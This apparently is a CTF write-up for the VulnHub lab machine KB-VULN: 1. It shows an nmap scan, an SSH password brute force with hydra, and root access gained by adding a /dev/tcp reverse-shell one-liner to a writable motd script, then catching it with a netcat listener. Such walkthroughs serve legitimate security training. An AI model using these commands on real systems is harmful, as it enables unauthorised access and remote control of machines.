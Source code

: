 ```yaml
---
title: "KB-VULN: 1 |  CTF Writeup"
description: "KB-VULN CTF Writeup vulnhub.com"
layout: post
---
```


##RECON
{% highlight bash %}
nmap service scan: 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}

Checking the web page source code showed me this comment:
{% highlight html %} 
<!-- Username : sysadmin -->
{% endhighlight %}

Running the username and the rockyou wordlist through hydra to bruteforce SSH:

{% highlight bash %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.106 -V

[22][ssh] host: 192.168.56.106   login: sysadmin   password: password1

{% endhighlight %}

Logging into SSH server and getting the first flag: 

{% highlight bash %}
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
{% endhighlight %}

Checking the passwd file on the system shows that the user eftipi can also login via ssh:

{% highlight bash %}
sysadmin@kb-server:~$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:KernelBlog VM:/home/sysadmin:/bin/bash
eftipi:x:1001:1001:,,,:/home/eftipi:/bin/bash
sysadmin@kb-server:~$ 
{% endhighlight %}

There is a clue as to the files we can write as the sysadmin user in the ftp directory
{% highlight bash %}
sysadmin@kb-server:~/ftp$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
{% endhighlight %}

We just need to add the following oneliner to the script and set up a netcat listener: 
{% highlight bash %}
bash -c 'exec bash -i &>/dev/tcp/192.168.56.101/6666 <&1'
{% endhighlight %}
ATTACKER MACHINE: 
{% highlight bash %}
nc -lp 6666
{% endhighlight %}

{% highlight bash %}
root@kb-server:/root# cat flag.txt
cat flag.txt
1eedddf9fff436e6648b5e51cb0d2ec7
{% endhighlight %}
